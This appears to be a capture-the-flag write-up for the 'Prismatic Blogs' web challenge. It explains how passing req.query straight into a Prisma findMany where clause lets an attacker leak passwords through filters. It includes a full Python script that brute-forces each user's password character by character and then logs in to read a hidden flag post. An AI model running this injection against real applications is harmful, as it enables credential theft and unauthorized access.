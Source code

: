 ```yaml
---
category: web
---
```

# Prismatic Blogs

## Information
The problem gives you the following files:
- `index.js`
- `package.json`
- `schema.prisma`
- `seed.js`

From this, we know it is a Node JS project that relies on the Prisma ORM.

In `index.js`, we get two routes:
- `GET /api/posts`
- `POST /api/login`

In `schema.prisma` we learn that posts are either published or unpublished.

In `seed.js` we learn the users' names and that their passwords are random. We also find that there is an unpublished post that contains the flag:
```js
{
	title: `The Flag`,
	body: `This is a secret blog I am still working on. The secret keyword for this blog is ${FLAG}`,
	authorId: Math.floor(Math.random()*NUM_USERS)+1,
	published: false
}
```

`GET /api/posts` does hides unpublished posts, but `POST /api/login` shows published posts. Therefore, the exploit must find the user credentials.

## Exploit

`GET /api/posts` has a pseudo-SQL injection problem, since it uses `req.query`, attacker-controlled data, as the `where` clause in the Prisma ORM:
```js
app.get(
  "/api/posts",
  async (req, res) => {
    try {
      let query = req.query;
      query.published = true;
      let posts = await prisma.post.findMany({where: query});
      res.json({success: true, posts})
    } catch (error) {
      res.json({ success: false, error });
    }
  }
);
```

For example:
![[Pasted image 20250121131821.png]]

We can use this to make a request to `/api/posts?author[name]={name}&author[password][startsWith]={password}` to determine the password. However, `startsWith` does a case-insensitive search, so once we find the passwords, we need to use `gt` and `lt` to do alphabetical string comparison.

Here is the full script:
```python
import requests
import pwn

pwn.log.level = pwn.logging.DEBUG

URL = "http://localhost:3000"

names = ["White", "Bob", "Tommy", "Sam"]
characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

def check_password_starts_with(name: str, password: str) -> bool:
    url = f"{URL}/api/posts?author[name]={name}&author[password][startsWith]={password}"
    pwn.debug(f"{name} {password}")
    data = requests.get(url).json()
    return len(data["posts"]) > 0

def find_password(name: str) -> str:
    password = ""
    for _ in range(100):
        for char in characters:
            if check_password_starts_with(name, password + char):
                password += char
                break
        else:
            break
    return password

def check_password_casing(name: str, password: str) -> bool:
    url = f"{URL}/api/posts?author[name]={name}&author[password][gt]={password}a&author[password][lt]={password}z"
    pwn.debug(f"{name} {password}")
    data = requests.get(url).json()
    return len(data["posts"]) > 0

def find_password_casing(name: str, password: str) -> str:
    fixed_password = ""
    for char in password:
        if check_password_casing(name, fixed_password):
            fixed_password += char.lower()
        else:
            fixed_password += char.upper()
    return fixed_password

def get_flag(name: str, password: str):
    url = f"{URL}/api/login"
    data = requests.post(url, json={"name": name, "password": password}).json()
    for post in data["posts"]:
        if "uoft" in post["body"].lower():
            pwn.info(post["body"])

passwords = {}

for name in names:
    password = find_password(name)
    password = find_password_casing(name, password)
    passwords[name] = password

for name, password in passwords.items():
    pwn.info(f"{name}'s password is {password}")
    get_flag(name, password)
```